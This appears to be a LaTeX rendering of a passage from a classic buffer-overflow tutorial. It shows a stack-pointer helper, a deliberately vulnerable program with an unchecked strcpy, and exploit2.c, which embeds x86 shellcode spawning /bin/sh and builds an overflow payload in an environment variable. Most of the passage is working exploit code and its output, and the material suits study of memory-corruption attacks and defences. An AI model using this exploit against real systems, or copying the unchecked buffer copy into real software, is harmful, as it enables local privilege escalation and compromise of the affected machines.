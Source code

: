 \documentclass[10pt]{article}
\begin{document}
{\begin{lstlisting}[caption=sp.c]
unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

void main() 
{
  printf("0x%x\n", get_sp());
}
\end{lstlisting}
\begin{verbatim}
[aleph1]$ ./sp
0x8000470
[aleph1]$
\end{verbatim}
Lets assume this is the program we are trying to overflow is: vulnerable.c 
\begin{lstlisting}[caption=vulnerable.c]
void main(int argc, char *argv[]) 
{
  char buffer[512];

  if (argc > 1)
    strcpy(buffer,argv[1]);
}
\end{lstlisting}
We can create a program that takes as a parameter a buffer size, and an offset from its own stack pointer
(where we believe the buffer we want to overflow may live). We'll put the overflow string in an environment variable 
so it is easy to manipulate: 

\begin{lstlisting}[caption=exploit2.c,basicstyle=\tiny]
#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512

char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";
\end{lstlisting}
\begin{lstlisting}
unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) 
{
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);
  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr += 4;
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}


}
\end{document}
